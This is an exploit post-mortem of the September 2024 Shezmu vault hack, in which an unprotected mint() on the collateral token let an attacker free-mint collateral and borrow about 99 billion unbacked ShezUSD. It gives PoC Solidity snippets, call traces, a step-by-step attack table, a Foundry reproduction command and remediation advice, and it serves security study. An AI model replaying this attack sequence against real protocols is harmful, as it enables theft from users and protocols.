



# Shezmu Exploit — Unprotected `mint()` on the Vault Collateral Token

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo does not whole-compile, so this PoC was
> extracted into a standalone project).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable borrow/collateral logic: [ERC20Vault / AbstractAssetVault](sources/ERC20Vault_a35f69/contracts_oasis_usd_AbstractAssetVault.sol).
> The collateral token itself (`0x6412…`) is **unverified** on Etherscan; its broken `mint()` is proven
> mechanically by the trace.

---

## Key info

| | |
|---|---|
| **Loss** | ~**$4.9M** realized (attacker minted **98,999,168,398 ShezUSD** of fake stablecoin, then sold what the on-chain DEX liquidity could absorb). The PoC measures the raw ShezUSD minted (≈ 98.99 **billion**), which is the upper-bound paper value. |
| **Vulnerable contract** | Shezmu Vault **collateral token** — [`0x641249dB01d5C9a04d1A223765fFd15f95167924`](https://etherscan.io/address/0x641249dB01d5C9a04d1A223765fFd15f95167924#code) (unprotected `mint()`) |
| **Victim / value sink** | Shezmu Vault proxy [`0x75a04A1FeE9e6f26385ab1287B20ebdCbdabe478`](https://etherscan.io/address/0x75a04A1FeE9e6f26385ab1287B20ebdCbdabe478) → `ERC20Vault` impl `0xa35f69…`; **ShezUSD** stablecoin [`0xD60EeA80C83779a8A5BFCDAc1F3323548e6BB62d`](https://etherscan.io/address/0xD60EeA80C83779a8A5BFCDAc1F3323548e6BB62d) |
| **Attacker EOA** | [`0xa3a64255484ad65158af0f9d96b5577f79901a1d`](https://etherscan.io/address/0xa3a64255484ad65158af0f9d96b5577f79901a1d) |
| **Attacker contract** | [`0xEd4B3d468DEd53a322A8B8280B6f35aAE8bC499C`](https://etherscan.io/address/0xEd4B3d468DEd53a322A8B8280B6f35aAE8bC499C) |
| **Attack tx** | [`0x39328ea4377a8887d3f6ce91b2f4c6b19a851e2fc5163e2f83bbc2fc136d0c71`](https://etherscan.io/tx/0x39328ea4377a8887d3f6ce91b2f4c6b19a851e2fc5163e2f83bbc2fc136d0c71) |
| **Chain / block / date** | Ethereum mainnet / 20,794,865 (fork at 20,794,864) / Sep 20–21, 2024 |
| **Compiler** | Vault impl: Solidity v0.8.17, optimizer 200 runs. ShezUSD: v0.8.x. PoC harness: v0.8.34 |
| **Bug class** | Missing access control on a privileged `mint()` (unlimited fake-collateral mint → over-borrow) |

---

## TL;DR

Shezmu is an over-collateralized CDP/stablecoin protocol: deposit a whitelisted **collateral token**
into a `ERC20Vault`, and the vault lets you `borrow()` up to ~70% of the collateral's USD value in the
protocol's stablecoin **ShezUSD**.

The protocol got the stablecoin side right — `ShezmuUSD.mint()` is gated behind `MINTER_ROLE`, held only
by the vault ([ShezmuUSD.sol:33-39](sources/ShezmuUSD_D60EeA/contracts_oasis_usd_ShezmuUSD.sol#L33-L39)).
But it got the **collateral token** catastrophically wrong: the collateral token at `0x6412…` exposes a
**public, unprotected `mint(address,uint256)`**. Anyone could mint themselves an arbitrary amount of the
collateral asset for free.

The attacker simply:

1. **Minted** `type(uint128).max − 1 ≈ 3.4 × 10³⁸` units of the collateral token to itself for free.
2. **Deposited** it as collateral via `vault.addCollateral()` — the vault values it at the Chainlink
   price (≈ $63,168 per token) and credits a credit limit of ≈ **$1.5 × 10²⁵**.
3. **Borrowed** 99,999,159,998 ShezUSD against that fake collateral — far below the credit limit, so the
   only real constraint is the vault's `borrowAmountCap`. The vault minted it ≈ **98,999,168,398
   ShezUSD** (after a 1% origination fee).
4. **Walked off** with the ShezUSD and dumped it into ShezUSD liquidity pools for ≈ **$4.9M** of real
   value.

The collateral was worthless (free-minted), so every ShezUSD borrowed against it is pure inflation: the
debt will never be repaid, and the stablecoin is now backed by nothing.

---

## Background — what Shezmu does

Shezmu's "oasis/usd" module is a fork of the JPEG'd / GMI-style **ERC20 CDP vault** design:

- A `ERC20Vault` (behind a `TransparentUpgradeableProxy`) accepts a single ERC20 **collateral token**
  (`tokenContract`) and lets users `addCollateral()` then `borrow()` the protocol stablecoin **ShezUSD**.
- Borrowing is limited by a **credit limit** computed from the collateral's USD value via an
  `ERC20ValueProvider` (which reads a Chainlink aggregator) times a fixed `baseCreditLimitRate` (70%).
- Repaying burns ShezUSD; the position can be liquidated by a `LIQUIDATOR_ROLE` if it goes underwater.

The trust model assumes the **collateral token is a legitimate, hard-to-acquire asset** (you must buy it
on the market). The entire over-collateralization guarantee rests on that assumption. The vault and
ShezUSD are correctly access-controlled; the weak link was the collateral token's mint authority.

On-chain facts at the fork block (from the trace):

| Parameter | Value |
|---|---|
| Collateral token decimals | 18 |
| Chainlink answer (8 dec) used by value provider | `6,316,840,147,860` → **$63,168.40 / token** |
| `baseCreditLimitRate` | 70% |
| Vault `organizationFeeRate` | 1% (origination fee) |
| Collateral minted by attacker | `type(uint128).max − 1` = `3.40282e38` units |
| Credit limit granted | ≈ **$1.50 × 10²⁵** (70% of ≈ $2.15 × 10²⁵ collateral value) |
| ShezUSD borrowed (requested) | 99,999,159,998 ShezUSD |
| ShezUSD minted (after 1% fee) | **98,999,168,398.02 ShezUSD** |

---

## The vulnerable code

### 1. The collateral token's `mint()` has no access control (root cause)

The collateral token at `0x641249dB01d5C9a04d1A223765fFd15f95167924` is **unverified** on Etherscan, so
no source is available — but the trace proves the call is permissionless. The attacker contract simply
calls it directly:

```solidity
// test/Shezmu_exp.sol — the entire exploit fits here
IShezmuCollateralToken(COLLATERAL_TOKEN).approve(SHEZMU_VAULT_PROXY, type(uint256).max);
uint256 amount = type(uint128).max - 1;
// Root cause: the collateral token's mint() lacks access control —
// anyone can mint any amount of collateral token.
IShezmuCollateralToken(COLLATERAL_TOKEN).mint(address(this), amount);
```
([test/Shezmu_exp.sol:48-53](test/Shezmu_exp.sol#L48-L53))

In the trace the attacker (an EOA-deployed contract, **not** a privileged role) successfully mints
`3.40282e38` collateral tokens to itself and the call returns `1` (success):

```
0x641249…7924::mint(AttackContract, 340282366920938463463374607431768211454)
  ├─ emit Transfer(from: 0x0…0, to: AttackContract, value: 3.402e38)
  └─ ← [Return] 0x…0001
```
([output.txt](output.txt))

### 2. Contrast — the stablecoin's `mint()` *is* gated (so the bug had to be on the collateral side)

```solidity
function mint(address to, uint256 amount) external {
    require(
        hasRole(MINTER_ROLE, _msgSender()),
        'ShezmuUSD: must have minter role to mint'
    );
    _mint(to, amount);
}
```
([ShezmuUSD.sol:33-39](sources/ShezmuUSD_D60EeA/contracts_oasis_usd_ShezmuUSD.sol#L33-L39))

Because ShezUSD is protected, the attacker could not mint it directly — they had to mint it *through the
vault's `borrow()`*, which requires collateral. The unprotected **collateral** `mint()` made that
collateral free.

### 3. The vault trusts the collateral 1:1 and mints ShezUSD against it

`addCollateral()` pulls the collateral via `safeTransferFrom` and credits the position's `collateral`
share 1:1:

```solidity
function _addCollateral(address _account, address _onBehalfOf, uint256 _colAmount) internal override {
    if (_colAmount == 0) revert InvalidAmount(_colAmount);
    tokenContract.safeTransferFrom(_account, address(this), _colAmount);
    uint share = _colAmount;
    ...
    position.collateral += share;
    emit CollateralAdded(_onBehalfOf, _colAmount);
}
```
([ERC20Vault.sol:55-77](sources/ERC20Vault_a35f69/contracts_oasis_usd_ERC20Vault.sol#L55-L77))

`borrow()` → `_borrow()` checks the requested debt against the credit limit derived from that collateral,
then **mints ShezUSD**:

```solidity
function _borrow(address _account, address _onBehalfOf, uint256 _amount) internal {
    if (_amount < settings.minBorrowAmount) revert MinBorrowAmount();
    uint256 _totalDebtAmount = totalDebtAmount;
    if (_totalDebtAmount + _amount > settings.borrowAmountCap) revert DebtCapReached();

    Position storage position = positions[_onBehalfOf];
    uint256 _creditLimit = _getCreditLimit(_onBehalfOf, position.collateral); // huge, fake
    uint256 _debtAmount  = _getDebtAmount(_onBehalfOf);
    if (_debtAmount + _amount > _creditLimit) revert InvalidAmount(_amount);   // passes trivially
    ...
    stablecoin.mint(_account, _amount - _feeAmount);   // ⚠️ ShezUSD minted against worthless collateral
    emit Borrowed(_onBehalfOf, _amount);
}
```
([AbstractAssetVault.sol:380-426](sources/ERC20Vault_a35f69/contracts_oasis_usd_AbstractAssetVault.sol#L380-L426))

The credit limit comes from the value provider, which multiplies the (free-minted) collateral amount by
the Chainlink price and the 70% rate:

```solidity
function getCreditLimitUSD(address _owner, uint256 _colAmount) external view returns (uint256) {
    RateLib.Rate memory _creditLimitRate = getCreditLimitRate(_owner, _colAmount); // = baseCreditLimitRate (70%)
    return _creditLimitRate.calculate(getPriceUSD(_colAmount));
}
function getPriceUSD(uint256 colAmount) public view returns (uint256) {
    uint256 price = getPriceUSD();                  // Chainlink, normalized to 18 dec
    return (price * colAmount) / (10 ** token.decimals());
}
```
([ERC20ValueProvider.sol:83-113](sources/ERC20Vault_a35f69/contracts_oasis_usd_ERC20ValueProvider.sol#L83-L113))

---

## Root cause — why it was possible

A CDP/stablecoin protocol's solvency invariant is *"every unit of stablecoin is backed by at least its
value in genuine collateral."* Shezmu protected the **mint side** (ShezUSD `MINTER_ROLE`) but left the
**collateral side mintable by anyone**.

> The collateral token at `0x6412…` exposes a public `mint(address,uint256)` with no `onlyOwner` /
> `onlyRole` / minter check. The vault then treats that collateral as if it were a scarce, market-priced
> asset and mints ShezUSD against it. Free collateral → free credit limit → free stablecoin.

The four facts that compose into the loss:

1. **Unprotected collateral mint.** The attacker mints `~3.4e38` collateral tokens for free — the single
   broken access check.
2. **The vault values collateral at the oracle price unconditionally.** No supply sanity check, no cap on
   how much collateral a single fresh position may add, no check that the collateral's total supply is
   reasonable. `addCollateral` credits the deposit 1:1.
3. **The credit limit is purely `price × amount × 70%`.** With `3.4e38` units at $63,168 each, the limit
   is astronomically larger than any real ShezUSD demand — so the credit-limit guard is never the binding
   constraint.
4. **The only real ceiling is `borrowAmountCap`.** The attacker borrowed 99,999,159,998 ShezUSD, which the
   vault happily minted (minus 1% fee), because that was under the configured cap.

The collateral the attacker deposited is worthless (they minted it for nothing), so the resulting
98.99 billion ShezUSD is entirely unbacked. The attacker then converted as much of it as on-chain ShezUSD
liquidity allowed — about **$4.9M** of real value — and the rest is irrecoverable bad debt for the protocol.

---

## Preconditions

- The collateral token's `mint()` must be callable by an arbitrary address (it was — no access control).
- The vault must hold `MINTER_ROLE` on ShezUSD (it does, by design) so `borrow()` can mint.
- The requested borrow must be `< borrowAmountCap` and `≥ minBorrowAmount` — both trivially satisfied at
  ~100 billion ShezUSD.
- **No capital required.** The collateral is free-minted; no flash loan, no starting balance — the
  attacker just calls four functions in sequence.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures are taken directly from [output.txt](output.txt). Collateral token decimals = 18; ShezUSD
decimals = 18; Chainlink answer = `6,316,840,147,860` (8 dec) → $63,168.40/token.

| # | Step | Call | On-chain value | Effect |
|---|------|------|---------------:|--------|
| 0 | **Approve** vault to pull collateral | `collateral.approve(vaultProxy, max)` | `1.157e77` | Allowance set. |
| 1 | **Free-mint collateral** | `collateral.mint(self, type(uint128).max-1)` | **3.40282e38 tokens** | ⚠️ Unprotected mint succeeds; attacker now "holds" $2.15e25 of fake collateral. |
| 2 | **Deposit collateral** | `vault.addCollateral(3.40282e38)` | collateral pulled via `transferFrom` | `position.collateral += 3.40282e38`; credit limit ≈ **$1.50e25**. |
| 3 | **Borrow** | `vault.borrow(99,999,159,998e18)` | credit-limit check passes (limit ≫ debt) | Vault mints ShezUSD: **98,999,168,398.02** (after 1% fee). |
| 4 | **Exfiltrate** | `shezUSD.transfer(attacker, balance)` | **98,999,168,398.02 ShezUSD** | Fake stablecoin moved to attacker EOA. |

Selected trace fragments:

```
AttackContract::attack()
 ├─ collateral.approve(vaultProxy, 1.157e77)                              → true
 ├─ collateral.mint(AttackContract, 3.402e38)                            → 1   ⚠️ no auth
 ├─ vaultProxy.fallback → ERC20Vault::addCollateral(3.402e38) [delegatecall]
 │    ├─ collateral.transferFrom(AttackContract, vaultProxy, 3.402e38)   → true
 │    └─ emit CollateralAdded(owner: AttackContract, colAmount: 3.402e38)
 ├─ vaultProxy.fallback → ERC20Vault::borrow(9.999e28) [delegatecall]
 │    ├─ ValueProvider.getCreditLimitUSD(AttackContract, 3.402e38)        → 1.504e25  (70% of value)
 │    ├─ ShezmuUSD::mint(AttackContract, 9.899e28)                        → 98,999,168,398.02 ShezUSD
 │    └─ emit Borrowed(owner: AttackContract, amount: 9.999e28)
 └─ ShezmuUSD::transfer(attacker, 9.899e28)                              → true
```

### Profit / loss accounting

| Item | Amount |
|---|---:|
| Capital spent by attacker | **0** (collateral was free-minted) |
| Fake collateral deposited | 3.40282e38 collateral tokens (worthless) |
| ShezUSD minted (PoC-measured) | **98,999,168,398.02 ShezUSD** |
| Unbacked debt created for protocol | 99,999,159,998 ShezUSD (incl. fee) |
| Realized loss (ShezUSD sold into DEX liquidity) | ≈ **$4.9M** |
| Attacker net | + (everything they could sell) − 0 cost |

The PoC asserts the attacker's ShezUSD balance jumps from `0` → `98,999,168,398.02` — the upper bound of
the mint. The *realized* loss (~$4.9M) was capped only by how much ShezUSD the open-market liquidity could
absorb before the price collapsed.

---

## Diagrams

### Sequence of the attack



### Collateral / debt state evolution



### The flaw: where the access check was missing



---

## Remediation

1. **Add access control to the collateral token's `mint()`.** The single root cause. `mint()` must be
   `onlyRole(MINTER_ROLE)` / `onlyOwner`, and that minter must be a trusted, audited contract — never a
   public function. (This is exactly what ShezUSD already does correctly.)
2. **Never let the vault accept a collateral token whose supply is not trustworthy.** Only whitelist
   collateral tokens whose mint authority is provably restricted (renounced, multisig, or a vetted
   bridge/escrow). Treat "collateral token has an open mint" as a critical disqualifier during listing.
3. **Bound borrowing against newly-added collateral.** Sanity-cap how much credit a single position can
   draw relative to the collateral token's *total supply* and the protocol's reserves, and consider a
   per-block / per-position borrow rate limit so a single tx cannot mint billions of stablecoin.
4. **Monitor and alert on solvency invariants.** A live check that `Σ debt ≤ Σ (collateral × price ×
   rate)` against *real* collateral, plus alerts on anomalous collateral total-supply growth, would have
   caught the `3.4e38` mint immediately.
5. **Defense in depth on the oracle/value path.** Even with a correct oracle, valuing an attacker-mintable
   asset is meaningless — but a supply/age/peg sanity check on collateral value would add a second barrier.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo has many unrelated
PoCs that fail to whole-compile under `forge test`):

```bash
_shared/run_poc.sh 2024-09-Shezmu_exp -vvvvv
```

- RPC: an **Ethereum mainnet archive** endpoint is required (fork at block 20,794,864). `foundry.toml`
  uses an Infura archive endpoint.
- Result: `[PASS] testExploit()` — attacker's ShezUSD balance goes `0 → 98,999,168,398.02`.

Expected tail:

```
Ran 1 test for test/Shezmu_exp.sol:Shezmu
[PASS] testExploit() (gas: 699617)
  Attacker Before exploit ShezUSD Balance: 0.000000000000000000
  Attacker After exploit ShezUSD Balance: 98999168398.020000000000000000
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*References: post-mortem — https://medium.com/coinmonks/decoding-shezmus-4-9-million-exploit-10dc0266b25b ;
thread — https://x.com/shoucccc/status/1837228053862437244 . Total reported loss: ~$4.9M (Ethereum, Sep 2024).*
